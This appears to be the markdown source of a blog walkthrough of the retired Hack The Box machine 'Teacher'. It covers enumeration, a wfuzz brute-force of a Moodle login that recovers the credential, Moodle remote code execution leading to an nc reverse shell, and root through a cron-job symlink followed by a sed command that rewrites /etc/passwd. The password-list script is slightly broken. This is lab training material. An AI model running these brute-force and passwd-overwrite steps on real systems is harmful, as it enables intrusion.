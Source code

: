 ```yaml
---
layout: post
title: "Teacher: Hack The Box Walkthrough"
date: 2019-04-21 02:33:27 +0000
last_modified_at: 2019-04-21 02:33:57 +0000
category: Walkthrough
tags: ["Hack The Box", Teacher, retired]
comments: true
image:
  feature: teacher-htb-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/baby-sitter-children-educator-nanny-1073411/
---
```


This post documents the complete walkthrough of Teacher, a retired vulnerable [VM][1] created by [Gioo][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

Teacher is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 10.10.10.153
...
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool
```

`nmap` finds `80/tcp` open. Let's go with that.

### Directory/File Enumeration

Based on my experience, it's always good to run some kind of fuzzing when faced with a lack of hints. Let's run `wfuzz` and SecList's `common.txt`, and see what we can find.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 --hc 404 http://10.10.10.153/FUZZ
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/FUZZ
Total requests: 4593

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000010:  C=403     11 L	      32 W	    291 Ch	  ".hta"
000011:  C=403     11 L	      32 W	    296 Ch	  ".htaccess"
000012:  C=403     11 L	      32 W	    296 Ch	  ".htpasswd"
001232:  C=301      9 L	      28 W	    310 Ch	  "css"
001735:  C=301      9 L	      28 W	    312 Ch	  "fonts"
002067:  C=301      9 L	      28 W	    313 Ch	  "images"
002094:  C=200    249 L	     747 W	   8028 Ch	  "index.html"
002218:  C=301      9 L	      28 W	    317 Ch	  "javascript"
002250:  C=301      9 L	      28 W	    309 Ch	  "js"
002497:  C=301      9 L	      28 W	    313 Ch	  "manual"
002627:  C=301      9 L	      28 W	    313 Ch	  "moodle"
002995:  C=403     11 L	      32 W	    297 Ch	  "phpmyadmin"
003597:  C=403     11 L	      32 W	    300 Ch	  "server-status"

Total time: 47.61103
Processed Requests: 4593
Filtered Requests: 4580
Requests/sec.: 96.46924
```

The site is running Moodle. [Moodle](https://github.com/moodle/moodle) is the world's open source learning platform. Moodle has its fair share of SQLi and RCE vulnerabilities but would require authenticated access.

<a class="image-popup">
![d31325ca.png](/assets/images/posts/teacher-htb-walkthrough/d31325ca.png)
</a>

While I was hunting around for a credential, something caught my eye at the Teacher's gallery page.

<a class="image-popup">
![7f34d280.png](/assets/images/posts/teacher-htb-walkthrough/7f34d280.png)
</a>

I got double F's! Something funky is going on here...

<a class="image-popup">
![0cf66884.png](/assets/images/posts/teacher-htb-walkthrough/0cf66884.png)
</a>

`5.png` is not an image. It's a text file.

<a class="image-popup">
![51d6ef0b.png](/assets/images/posts/teacher-htb-walkthrough/51d6ef0b.png)
</a>

Gotcha!

It's easy to generate a password list for brute-forcing the Moodle login form. You can do it with Python like so.

```python
import string

charset = string.ascii_letters + string.digits + string.punctuations

f = open('passwords.txt', 'w')
s = Th4C00lTheacha
t = ''

for c in charset:
  t += s + c + '\n'

f.write(t)
f.close()
```

Once the password list is generated, we can use `wfuzz` to brute-force it.

```
# wfuzz -w passwords.txt --hh 440 -t 20 -d "anchor=&username=giovanni&password=FUZZ" http://10.10.10.153/moodle/login/index.php
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/moodle/login/index.php
Total requests: 94

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000065:  C=303      6 L	      34 W	    454 Ch	  "Th4C00lTheacha#"

Total time: 17.72110
Processed Requests: 94
Filtered Requests: 93
Requests/sec.: 5.304409
```

The credential is (`giovanni:Th4C00lTheacha#`).

<a class="image-popup">
![ca2fc9fc.png](/assets/images/posts/teacher-htb-walkthrough/ca2fc9fc.png)
</a>

## Low-Privilege Shell

Following the instructions from this [post](https://blog.ripstech.com/2018/moodle-remote-code-execution/), I was able to execute a reverse shell back to me.

First, create a calculated question like so.

<a class="image-popup">
![4cd4b5a0.png](/assets/images/posts/teacher-htb-walkthrough/4cd4b5a0.png)
</a>

Create the formula like so.

<a class="image-popup">
![ef16f0d5.png](/assets/images/posts/teacher-htb-walkthrough/ef16f0d5.png)
</a>

Then execute remote commands on the host to run a reverse shell back to me using `nc`.

<a class="image-popup">
![213a07a8.png](/assets/images/posts/teacher-htb-walkthrough/213a07a8.png)
</a>

There you have it, a low-privilege shell.

<a class="image-popup">
![400efef7.png](/assets/images/posts/teacher-htb-walkthrough/400efef7.png)
</a>

Let's upgrade our shell with a pseudo-TTY using Python and then `stty raw -echo; fg; reset`.

## Privilege Escalation

I'm aware that Moodle connects to a database backend to store all the good stuff. The database settings are in `config.php` at the Moodle directory.

<a class="image-popup">
![30e91902.png](/assets/images/posts/teacher-htb-walkthrough/30e91902.png)
</a>

Let's connect to the database.

<a class="image-popup">
![b4d16fec.png](/assets/images/posts/teacher-htb-walkthrough/b4d16fec.png)
</a>

Cracking the MD5 hash is easy.

<a class="image-popup">
![1dc2b446.png](/assets/images/posts/teacher-htb-walkthrough/1dc2b446.png)
</a>

This is the password to `giovanni`'s account. `user.txt` is in the home directory.

<a class="image-popup">
![2a856c44.png](/assets/images/posts/teacher-htb-walkthrough/2a856c44.png)
</a>

During enumeration of `giovanni`'s account, I noticed the pressence of `work` directory and `/usr/bin/backup.sh` referred to it.

<a class="image-popup">
![dc87e44b.png](/assets/images/posts/teacher-htb-walkthrough/dc87e44b.png)
</a>

If I had to guess, I would say this is inside a `cron` job ran with `root` privileges since `giovanni` has no permissions to edit it.

But, look at the last line. It changes the permissions of any file to `rwxrwxrwx`. What if I put a symbolic link to `/etc/passwd` in it?

<a class="image-popup">
![39075b90.png](/assets/images/posts/teacher-htb-walkthrough/39075b90.png)
</a>

Boom! Anyone can edit `/etc/passwd`. Let's give ourselves `root` access.

```
$ sed -r '1h;x;2s/root:x/toor:to5bce5sr7eK6/' /etc/passwd > /tmp/passwd
$ cp /tmp/passwd /etc/passwd
```

<a class="image-popup">
![7a326bec.png](/assets/images/posts/teacher-htb-walkthrough/7a326bec.png)
</a>

With a `root` shell, getting `root.txt` is a breeze.

<a class="image-popup">
![f6295439.png](/assets/images/posts/teacher-htb-walkthrough/f6295439.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/165
[2]: https://www.hackthebox.eu/home/users/profile/623
[3]: https://www.hackthebox.eu/
